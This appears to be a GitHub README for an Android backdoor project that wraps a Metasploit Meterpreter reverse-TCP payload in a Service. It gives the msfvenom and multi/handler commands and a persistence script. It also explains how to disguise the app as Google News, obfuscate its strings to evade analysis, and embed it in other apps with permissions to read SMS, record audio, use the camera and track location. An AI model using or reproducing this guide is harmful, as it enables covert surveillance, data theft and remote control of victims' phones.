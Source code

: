 
# msfvenom-backdoor-android
This Android Studio project represents an alternative to automatically embedding Meterpreter in an Android APK through MSFVenom:
```
msfvenom --platform android -p android/meterpreter/reverse_tcp -x [ORIGINAL_APK].apk LHOST=[LHOST] LPORT=[LPORT] -f raw -o [BACKDOORED_APK].apk
```
## Source Code
This project contains the source code of the Android apk backdoor generated in Kali Linux by the following command:
```
$msfvenom -p android/meterpreter/reverse_tcp LHOST=[LHOST] LPORT=[LPORT] R > result.apk
```
In order to avoid an early Meterpreter session death:
```
[*] Meterpreter session x closed - Reason:died
```
it starts the payload in a Service. Meterpreter session is more stable in this way, instead the original MSFVenom apk often causes session to die very soon.

In this project the backdoor works in **LAN** environment, opening a TCP meterpreter session to 192.168.111.168 on port 8080, but both the address and protocol settings can be easily changed in **Payload.java** file if you want to work in a **WAN**. In detail, **TCP**, **HTTP** and **HTTPS** communications protocols are all supported.

## Obfuscation
In order obfuscate the malicious code multiple strategies have been adopted:

### 1. Metasploit references removal
The app package *stage.metasploit.com.backdooredapk* has been replaced with a fake Android standard package *com.android.supportx*.

### 2. Name and icon spoofing
In the icon folder all the most common Google services icons have been downloaded and then imported in all sizes (ldpi, mdpi, hdpi, xhdpi, xxhdpi, xxxhdpi and tvdpi) in the app resource folder by Android Studio. In this repo the Google News icon has been applied and in the *strings.xml* file the app name value has been changed to *News*.

### 2. String obfuscation
The string obfuscation has been performed by applying the Paranoid plugin. In order to make Paranoid work with your project you have to apply the Paranoid Gradle plugin to the project. Please notice that the Paranoid plugin must be applied **after** the Android plugin.

```
buildscript {
  repositories {
    jcenter()
  }

  dependencies {
    classpath 'io.michaelrocks:paranoid-gradle-plugin:0.3.2'
  }
}

apply plugin: 'com.android.application'
apply plugin: 'io.michaelrocks.paranoid'
```
The ***Payload*** and ***PayloadTrustManager*** classes have then been marked by the `@Obfuscate` so, after the project compiles, every string in annotated classes has been obfuscated. In this way if someone tries to unpack the apk:
```
apktool d [NAME].apk
```
or even completely decompule it:
```
jadx-gui
```
he will not be able to identify any malicious strings, such as IPs, ports, protocols, Metasploit references, or even suspect class names.

## Metasploit Handler
The control server must be executing handler exploit with Metasploit, with following commands:
```
$ msfconsole
$ use exploit/multi/handler
$ set payload android/meterpreter/reverse_tcp
$ set LHOST [LHOST]
$ set LPORT [LPORT]
$ set ExitOnSession false
$ set AndroidWakelock true 
$ set AndroidHideAppIcon true # OPTIONAL
$ set AutoRunScript commands.rc
$ exploit -j -z
```
or by simply using the *handler.rc* script:
```
$ msfconsole -r ./scripts/handler.rc
```
As soon as the Metasploit handler is ready, the apk can be installed and launched.

## Post-exploitation
The *AutoRunScript* option has been set to automatically execute the *commands.rc* script, once Metasploit receives the connection back. The *android.sh* bash script is uploaded and, if launched, adds persistence by calling back a new Meterpreter sessions every ***X*** seconds. 

## How to embed this backdoor?
The proposed backdoor can be easily embedded in other Android Studio apps by following these steps:
1. Import the Java class files into the project. Be careful to correctly write the new app package into these classes and to manage all the imports.
2. Add the Paranoid plugin to the project
3. Add all the required permissions to the *AndroidManifest.xml* file:
```
<uses-permission android:name="android.permission.INTERNET" />  
<uses-permission android:name="android.permission.ACCESS_NETWORK_STATE" />  
<uses-permission android:name="android.permission.ACCESS_COURSE_LOCATION" />  
<uses-permission android:name="android.permission.ACCESS_FINE_LOCATION" />  
<uses-permission android:name="android.permission.READ_PHONE_STATE" />  
<uses-permission android:name="android.permission.SEND_SMS" />  
<uses-permission android:name="android.permission.RECEIVE_SMS" />  
<uses-permission android:name="android.permission.RECORD_AUDIO" />  
<uses-permission android:name="android.permission.CALL_PHONE" />  
<uses-permission android:name="android.permission.READ_CONTACTS" />  
<uses-permission android:name="android.permission.WRITE_CONTACTS" />  
<uses-permission android:name="android.permission.RECORD_AUDIO" />  
<uses-permission android:name="android.permission.WRITE_SETTINGS" />  
<uses-permission android:name="android.permission.CAMERA" />  
<uses-permission android:name="android.permission.READ_SMS" />  
<uses-permission android:name="android.permission.ACCESS_WIFI_STATE"/>  
<uses-permission android:name="android.permission.CHANGE_WIFI_STATE"/>  
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>  
<uses-permission android:name="android.permission.RECEIVE_BOOT_COMPLETED"/>  
<uses-permission android:name="android.permission.SET_WALLPAPER"/>  
<uses-permission android:name="android.permission.READ_CALL_LOG"/>  
<uses-permission android:name="android.permission.WRITE_CALL_LOG"/>  
<uses-feature android:name="android.hardware.camera"/>  
<uses-feature android:name="android.hardware.camera.autofocus"/>  
<uses-feature android:name="android.hardware.microphone"/>
```
4. Add the ***Svc*** service to the *AndroidManifest.xml* file:
```
<service  
  android:name="com.android.supportx.Svc"  
  android:enabled="true"  
  android:exported="false"  
  android:process=":myintent" >  
</service>
```
and properly fix the app package (replacing *com.android.supportx*).

## References
1. [GitHub repository for Android MSFVenom Backdoor](https://github.com/giovannicolonna/msfvenom-backdoor-android)
2. [Paranoid plugin for string obfuscation in Android applications](https://github.com/MichaelRocks/paranoid)
3. [Create a Persistent Back Door in Android Using Kali Linux](https://null-byte.wonderhowto.com/how-to/create-persistent-back-door-android-using-kali-linux-0161280/)
4. [Android ISO images for virtualization](https://www.fosshub.com/Android-x86.html)

## Other resources
1. [BlackHat Art of Backdooring Android apk](https://medium.com/@lucideus/the-black-hat-art-of-backdooring-android-apk-part-1-lucideus-research-7215f79e7d51)
2. [Manually embed Meterpreter in Android apk](https://www.blackhillsinfosec.com/embedding-meterpreter-in-android-apk/)
3. [AhMyth Android Rat](https://github.com/AhMyth/AhMyth-Android-RAT)
4. [Obfuscapk - A black-box obfuscation tool for Android apps](https://github.com/ClaudiuGeorgiu/Obfuscapk)
5. [Evil-Droid Framework](https://github.com/M4sc3r4n0/Evil-Droid)
6. [TheFatRat](https://github.com/Screetsec/TheFatRat)
7. [How To Automatically Embed Payloads In APK's - Evil-Droid, Thefatrat & Apkinjector](https://www.youtube.com/watch?v=C_Og6LnEZSg)
8. [Apkwash - Android APK Antivirus evasion for msfvenom generated payloads](https://github.com/jbreed/apkwash)
9. [Apksigner - Sign and verify Android APKs](http://manpages.ubuntu.com/manpages/bionic/man1/apksigner.1.html)
10. [Backdoor-apk](https://github.com/dana-at-cp/backdoor-apk)

